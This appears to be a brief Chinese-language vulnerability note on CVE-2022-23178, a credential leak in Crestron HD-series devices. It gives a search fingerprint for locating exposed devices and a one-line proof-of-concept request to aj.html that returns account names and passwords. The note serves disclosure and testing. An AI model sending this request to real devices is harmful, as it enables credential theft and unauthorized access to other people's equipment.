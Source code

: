 # Crestron aj.html 账号密码泄漏漏洞 CVE-2022-23178

# Crestron aj.html 账号密码泄漏漏洞 CVE-2022-23178

## 漏洞描述

Crestron HD等系列设备 aj.html页面调用特定的参数可以获取账号密码等敏感信息

## 漏洞影响

```
Crestron HD等系列设备
```

## 网络测绘

```
app="Crestron-HD-RX-201-C-E"
```

## 漏洞复现

POC

```
/aj.html?a=devi
```

![image-20220519161948146](/images/202205191619189.png)

